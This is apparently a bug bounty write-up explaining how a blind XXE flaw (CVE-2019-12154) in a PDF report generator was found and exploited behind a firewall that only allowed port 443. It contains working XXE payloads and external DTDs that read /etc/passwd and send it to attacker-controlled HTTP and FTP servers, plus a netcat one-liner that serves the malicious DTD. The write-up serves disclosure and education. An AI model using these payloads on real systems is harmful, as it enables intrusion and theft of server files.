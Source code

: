 ```yaml
---
layout: post
title: "Data Exfiltration through Blind XXE on PDF Generator"
categories: BugBounty
---
```

## Data Exfiltration through Blind XXE on PDF Generator

# Summary:

&nbsp;
In this post, I will explain how I found a Blind XXE injection on PDF Generator that was vulnerable to CVE-2019-12154. However, in order to exfilftrate data, I had to bypass some WAF restrictions.
&nbsp;

&nbsp;
![image49]({{ site.baseurl }}/assets/images/49.png){:.images}
&nbsp;

An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.
&nbsp;

The web application that I was testing was designed for financial operations, and low-level users were able to generate reports. Because this was a private bug bounty program, I've redacted some of the screenshots below and referred to the target as **"redacted.com"**.
&nbsp;

RealObjects PDFreactor (version 9.1.97971) was used in the web application to generate PDF reports. Versions of PDFReactor prior to "10.1.1" are vulnerable to CVE-2019-12154, which does not have a publicly available PoC, but I was able to reproduce the issue by injecting malicious XML content and exfiltrate data using external DTD's.
&nbsp;

In order to reproduce this vulnerability, two attacking machines with publicly accessible IP addresses were required. This was due to the PDF Generator machine's firewall only allowing requests to port 443. The need for an SSL certificate was eliminated because I was able to bypass the application logic by using **http://** as protocol and appending port **:443** at the end of the url, such as **http://attacker.com:443**.


# Steps to Reproduce:

&nbsp;
**1. Preparing the needed scripts and payloads:**{: style="color: red"}
&nbsp;

While exploiting this vulnerability, I had pointed the below subdomains to two different IP's.
&nbsp;

1. http.arben.sh -> [IP_HERE]
1. ftp.arben.sh -> [ANOTHER_IP_HERE]

&nbsp;
On the `ftp.arben.sh`{: style="color: red"} server I used [xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb) which uses Ruby language to launch an FTP server on the attacker's specified port (in this case 443).
&nbsp;

To do this, I changed line nr. 3 on xxe-ftp-server.rb script from **"ftp_server = TCPServer.new 2121"** to **"ftp_server = TCPServer.new 443**".
&nbsp;

Then fired up the script using the following command:
> $> ruby xxe-ftp-server.rb
> {: style="color: red"}

&nbsp;

Heading over to `http.arben.sh`{: style="color: red"} subdomain, in the directory where the HTTP server would be running, I created a file named **payload.dtd** with the following content.
&nbsp;

&nbsp;
```xml
<!ENTITY % stuff SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'ftp://ftp.arben.sh:443/%stuff;'>">
```
&nbsp;

A simple way to start a HTTP server on a desired port is by using Python with the following command:
> $> python3 -m http.server 443
> {: style="color: red"}
&nbsp;

**2. Sending the malicious request:**{: style="color: red"}
&nbsp;

I logged in using my low-privileged account and navigated to the report generation page from the left menu. I had BurpSuite on the background intercepting the requests and clicked on the "PDF" text (marked with red sign as shown in the screenshot below) in order to generate the PDF.

&nbsp;
![image46]({{ site.baseurl }}/assets/images/46.png){:.images}
&nbsp;

On the intercepted request being made to "https://redacted.com/redacted/api/v1/pdf/download", I then edited the **htmlBody=**{: style="color: red"} parameter with the following payload (URL encoded):
&nbsp;

&nbsp;
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "https://http.arben.sh:443/payload.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

&nbsp;
- The above payload would send a HTTP request to our HTTP server and execute the payload stored within **payload.dtd**, which would then exfiltrate data of **/etc/passwd** (or any specified file/directory) to our FTP server as shown on the screenshots below. Even though the target's server responded with a "500 Internal Server Error" status code, the payload was being processed in the backend.


&nbsp;
![image47]({{ site.baseurl }}/assets/images/47.png){:.images}
&nbsp;

Heading over to our virtual private server's, we saw that a request for **payload.dtd** was made and we began receiving data on our FTP server. We were able to easily enumerate files and directories on the target's system because this PDFGenerator was built in Java.

&nbsp;
![image48]({{ site.baseurl }}/assets/images/48.png){:.images}
&nbsp;

When I mentioned this issue to my friend [0xCela](https://twitter.com/0xcela), he came up with a One-Liner that would eliminate the need for two private servers.
&nbsp;

An attacker could use the **netcat** utility to listen on port 443 and serve a static response (malicious dtd), then kill the HTTP server and immediately start an FTP server using the Ruby script. Even though this appears to be simple because it requires less effort to set up the payloads, it may only work occasionally due to race conditions and lower the vulnerability severity, but again it would reduce the attacker's cost.
&nbsp;

**Command on VPS:**
&nbsp;

```bash
echo -e 'HTTP/1.1 200 OK\n\n<!ENTITY % payl SYSTEM '"'"'file:///etc/passwd'"'"'>\n<!ENTITY % int "<!ENTITY &#37; trick SYSTEM '"'"'ftp://attacker:443/%payl;'"'"'>">' | nc -N -lnvp 443; ruby xxe-ftp-server.rb

```
&nbsp;

**Request payload on BurpSuite:**
&nbsp;

```xml
<?xml version="1.0"?><!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://attacker:443/">%remote;%int;%trick;]>
```
&nbsp;

*Note: A PDF Generator may appear insignificant at first glance but it can be an open door to your organization for the attacker. To resolve such issues, make sure your software is always up to date and that proper WAF rules are in place.*

&nbsp;
*Thank you for taking the time to read this, and I hope you find it useful.*
&nbsp;
